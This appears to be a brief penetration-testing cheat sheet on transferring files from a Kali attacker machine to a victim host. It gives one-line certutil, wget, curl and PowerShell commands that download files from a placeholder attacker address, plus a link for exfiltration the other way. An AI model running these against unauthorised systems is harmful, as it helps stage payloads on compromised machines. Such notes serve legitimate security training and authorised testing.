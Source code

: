 # From kali to victim
On victim machine, 

```shell
# certutil
certutil.exe -urlcache -f http://<kali-ip>:<port>/<filename> <filename-to-save>

# wget
wget http://<kali-ip>:<port>/<filename>

# curl
curl http://<kali-ip>:<port>/<filename> -o <filename-to-save>

# powershell
iwr -uri http://<kali-ip>:<port>/<filename> -outfile <filename-to-save>
```

# From victim to kali
Refer to https://csbygb.gitbook.io/pentips/post-exploitation/file-transfers
Note: if face error with SCP, try using `-T` or `-O` options